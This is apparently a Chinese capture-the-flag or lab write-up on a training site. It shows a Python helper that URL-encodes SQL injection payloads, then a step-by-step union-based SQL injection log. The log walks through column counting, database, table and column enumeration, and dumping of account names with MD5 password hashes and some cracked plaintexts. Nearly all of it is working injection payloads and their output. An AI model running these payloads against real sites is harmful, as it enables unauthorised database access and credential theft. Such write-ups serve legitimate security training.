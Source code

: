 ```
zm = {
    '/':'%2F',
    "'":'%27',
    '(':'%28',
    ')':'%29',
    '*':'%2A',
    '+':'%2B',
    ',':'%2C',
    '=':'%3D',
    ' ':'%20',
    'a':'%61',
    'b':'%62',
    'c':'%63',
    'd':'%64',
    'e':'%65',
    'f':'%66',
    'g':'%67',
    'h':'%68',
    'i':'%69',
    'j':'%6a',
    'k':'%6b',
    'l':'%6c',
    'm':'%6d',
    'n':'%6e',
    'o':'%6f',
    'p':'%70',
    'q':'%71',
    'r':'%72',
    's':'%73',
    't':'%74',
    'u':'%75',
    'v':'%76',
    'w':'%77',
    'x':'%78',
    'y':'%79',
    'z':'%7a',
    '1':'%31',
    '0':'%30',
    '2':'%32',
    '3':'%33',
    '4':'%34',
    '5':'%35',
    '6':'%36',
    '7':'%37',
    '8':'%38',
    '9':'%39',
    '_':'%5F',
    '.':'%2E',
    '-':'%2D',
    '>':'%3e'
}
#url = '/**/union/**/select/**/1,2,3,4'
#url = '/**/union/**/select/**/1,2,database(),4'
#url = "/**/union/**/select/**/1,2,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'mozhe_discuz_stormgroup'),4"
#url = "/**/union/**/select/**/1,2,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'stormgroup_member'),4"
#url = "/**/union/**/select/**/1,2,(select/**/group_concat(password)/**/from/**/stormgroup_member),4" 
urlcode = ''
for u in url:
    urlcode += zm[u]
print(urlcode)
```
猜测他的语句应该是


猜测后台sql语句
1' 报错
1' --+ 正常
推测
select x from x id = '${id}'
构造以后
select x from x id = '1' -- '

猜解select 字段个数 7
http://219.153.49.228:46049/new_list.php?id=4' order by 7 --+
构造以后
select x from x id = '4' order by 7  -- '

尝试使用union注入
-4' union select 1,2,3,4,5,6,7 --+
可以看到
2 3 4 5 位置处被展示

尝试获取数据库
-4' union select 1,(select database()),3,4,5,6,7 --+
获取数据库：min_ju4t_mel1i

尝试获取数据库表名
-4' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database()),3,4,5,6,7 --+
获取表名：(@dmin9_td4b},notice,stormgroup_member,tdb_goods

尝试获取stormgroup_member表字段
-4' union select 1,(select group_concat(column_name) from information_schema.columns where table_name ="stormgroup_member"),3,4,5,6,7 --+
获取字段列表：id,name,password,status

尝试获取stormgroup_member表字段内容
-4' union select 1,(select group_concat(name,":",password,"-",status) from stormgroup_member),3,4,5,6,7 --+

mozhe1:c4ea899a06973f44f891504e2efa3356-0,havefun1
mozhe:7fef6171469e80d32c0559f88b377245-0,admin888
mozhe2:df2e21728002dfde009b3418a31cdb9d-0,goodjob8
mozhe3:92504c9b96eb37bc1ac5dcfe085660ae-1,wow666
mozhe4:22848a9af522d214c0fec25947475c73-0,havefun3

纳尼所有账户密码都不对
先冷静思考一下
换个表试试

尝试获取(@dmin9_td4b}表字段  奇形怪状
-4' union select 1,(select group_concat(column_name) from information_schema.columns where table_name ="(@dmin9_td4b}"),3,4,5,6,7 --+
获取字段列表：id,username,password,status


尝试获取(@dmin9_td4b}表字段内容 表名报错，应该是左右圆括号报错了   转义试试
-4' union select 1,(select group_concat(username,":",password,"-",status) from `(@dmin9_td4b}`),3,4,5,6,7 --+

mozhe1:c4ea899a06973f44f891504e2efa3356-0,
mozhe:7fef6171469e80d32c0559f88b377245-0,
mozhe2:cb16f5d9fecbae34d999a17652305de1-0,
mozhe4:22848a9af522d214c0fec25947475c73-0,
mozhe3:83bba24fbaa06ce06524ba3ba853711f-1
